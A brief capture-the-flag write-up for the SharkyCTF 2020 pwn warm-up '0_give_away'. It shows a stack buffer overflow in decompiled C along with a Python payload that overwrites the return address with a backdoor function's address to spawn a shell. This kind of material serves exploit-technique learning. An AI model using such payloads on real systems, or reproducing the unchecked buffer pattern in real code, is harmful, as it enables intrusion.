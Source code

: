 
## 0_give_away
### Description

> Home sweet home. 
>
> Creator: Hackhim


### Attachment

[0_give_away](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/SharkyCTF-2020/pwn/0_give_away/0_give_away)

### Analysis

A warm up task 

```c
void vuln(void){
    char *s;
    fgets(&s, 0x32, _reloc.stdin);
    return;
}
void win_func(void){
    execve("/bin/sh", 0, 0);
    return;
}
```

> buffer overflow, backdoor function

### Solution

Overwrite return address with address of `win` function

```python
offset = 40
payload = 'A'*offset
payload += p64(0x04006A7)
sl(payload)
```


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/SharkyCTF-2020/pwn/0_give_away) 


